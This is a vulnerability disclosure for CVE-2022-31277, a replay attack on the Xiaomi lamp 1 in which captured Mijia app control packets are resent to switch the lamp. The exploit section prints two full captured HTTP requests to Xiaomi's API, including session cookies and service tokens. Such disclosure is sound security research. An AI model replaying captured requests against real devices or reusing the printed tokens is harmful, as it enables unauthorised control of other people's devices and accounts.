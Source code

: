 # Xiaomi lamp 1 replay_attack

**CVE ID**:

**CVE ID**: CVE-2022-31277

**CNVD ID**: CNVD-2022-08945

**Vender**: Xiaomi

**Vendor Homepage**: https://www.mi.com/

**Affect products**: Xiaomi lamp 1

**Firmware version**: 2.0.4_0066

**Hardware Link**: non-public

**Exploit Author**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

## describe

The Xiaomi lamp 1 has a replay attack vulnerability, which allows remote attackers to bypass the expected access restrictions through replay attacks and control the Xiaomi lamp 1 switch and other functions.

## detail

Take the replay attack to turn on the lamp as an example。Grab the [Mijia](https://app.mi.com/details?id=com.xiaomi.smarthome) APP traffic through **burpsutie**, click to turn on the desk lamp, and grab a traffic packet whose path is `/app/home/rpc/xxxxxx`, this is the data packet for controlling the desk lamp:

![image-20220105113225376](img/image-20220105113225376.png)

Put it in the replayer and just send this packet to turn on the lamp.

![image-20220105114115340](img/image-20220105114115340.png)

You can see that the data in the package is encrypted. By analyzing the apk, it is known that the encrypted json stores the key-value pair of the control information. Grab a light-on action package again:

![image-20220105165504569](img/image-20220105165504569.png)

The data ciphertext of the two data packets is different, but **both data packets can be replayed to turn on the lamp**.

## attack demo

The attack video process, please check the [demo video](./video.mp4) in the catalog

![image-20220105114455019](img/image-20220105114455019.png)

## EXP

**Power on**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=YHYNfLWS8LEBZBZZIdUR1X606sBwilQiZDMloVqjt%2BFVbPNjRnEIeB5DvZinL7Y%3D&rc4_hash__=XqPOZ7wCLzpDaEroeFmOWQXUiCoFIyOiy49GNQ%3D%3D&signature=zts1XCrmpHnd7ukhqB1Uv3am6kk%3D&_nonce=Cpz3G2Yb8koBoWqu&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

**Power off**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 235
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=AeYm0RhrXxd2UFW0RbrSq1vJg00F7etiu3HU%2B49SIY0KBAr5BZ4aWWtRRp%2BkUfpK&rc4_hash__=t1RrRFeKaIExpcqPD7fs29PwOaWF0%2BZDak92NA%3D%3D&signature=G5jfJlJkrYKectgL1ylXFWV6g1M%3D&_nonce=hlmICBR3G2cBoWqv&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

